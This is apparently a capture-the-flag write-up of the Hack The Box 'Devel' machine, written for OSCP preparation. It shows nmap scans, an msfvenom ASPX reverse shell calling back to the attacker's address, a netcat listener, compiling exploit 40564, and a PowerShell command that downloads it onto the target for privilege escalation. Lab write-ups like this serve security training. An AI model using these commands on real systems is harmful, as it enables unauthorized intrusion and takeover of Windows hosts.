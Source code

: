 ```yaml
---
layout: post
title: "Hack the Box — Devel"
date: 2023-01-25
draft: false
tags: [""]
categories: ["Hack The Box", "TJ Null's OSCP List"]
summary: "One of the first HTB boxes I solved a few months ago from the TJ Null List in preparation for the PNPT and OSCP."
---
```


# Hack the Box- Devel

One of the first HTB boxes I solved a few months ago from the [TJ Null List](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) in preparation for the PNPT and OSCP.

![](https://miro.medium.com/v2/resize:fit:1400/1*7nNCRPLlmjDNc0bB7fReYA.png)

Solving the “Devel” box can be divided into 3 main steps:

1.  **Recon**

-   We conduct some recon using nmap or rustscan
-   look into MS-IIS/7.5, google a bit about executable file types

2. **Enumeration**

-   using the anonymous FTP access

3. **Exploitation**

-   Use FTP to upload a reverse shell
-   After this initial foothold, we priv esc using a [https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564)
-   Gain system authority

## Recon

```bash
nmap -sC -sV -O -oA nmap/initial 10.10.10.5
```

![](https://miro.medium.com/v2/resize:fit:1400/1*6bpI_nICZqPSQ8sT_mEb5Q.png)

```bash
nmap -sC -sV -O -p- -oA nmap/full 10.10.10.5
```

![](https://miro.medium.com/v2/resize:fit:1400/1*29Ki38Na6wFpu7DRdXaUuw.png)

```bash
nmap -sU -O -oA nmap/udp 10.10.10.5
```

![](https://miro.medium.com/v2/resize:fit:1400/1*tr4VJqOG7bzIoyPAYXkIiQ.png)

## Enum

![](https://miro.medium.com/v2/resize:fit:1400/1*eFrKhKbRs2jBUM709dp8tw.png)

![](https://miro.medium.com/v2/resize:fit:1400/1*v4N0d9mFUVBcX_hzeXRugg.png)

We have some web-facing material and we can try to go to these pages.

> I think “evil” is left over from someone else working on the box 😅

![](https://miro.medium.com/v2/resize:fit:1400/1*pgkRWz6uSVSuFnPaSoKBmw.png)

## Exploitation

Create reverse-shell.aspx with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.37 LPORT=4444 -o reverse-shell.aspx
```

![](https://miro.medium.com/v2/resize:fit:1400/1*0JcHijD_HIUEXnFLzH8i3A.png)

Push reverse-shell.aspx to the webserver

![](https://miro.medium.com/v2/resize:fit:1400/1*k4b2_9e6wlQ7GB_xg2zsNQ.png)

Start a listener with netcat in another terminal

``nc -nlvp 4444``

Visit [http://10.10.10.5/reverse-shell.asp](http://10.10.10.5/reverse-shell.aspc)x to activate the payload

![](https://miro.medium.com/v2/resize:fit:1400/1*Y_adv31A543qZtdwnlt9ag.png)

Gain shell on the listener

![](https://miro.medium.com/v2/resize:fit:1400/1*ZSlHdje0bHe9_tpZtZNekQ.png)

### Priv Esc

Find an exploit that works

```bash
searchsploit -m 40564  
  
#this will download it to our currect directory
```

Compile it

```bash
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Serve it

![](https://miro.medium.com/v2/resize:fit:1296/1*sMY91BB0AES7xjpupL7FWQ.png)

Get it with powershell or certutil

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.37:443/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

![](https://miro.medium.com/v2/resize:fit:1400/1*mW5uplnUSDAIoCEq-265nw.png)

Once bad.exe is run the priv esc is immediate

![](https://miro.medium.com/v2/resize:fit:1160/1*kxhw_dq7D8S9ZWZFUa3BNA.png)

## Mitigation- How could this attack have been stopped?

1.  Disable anonymous access to the FTP server
2.  Configure the FTP server to only allow downloads
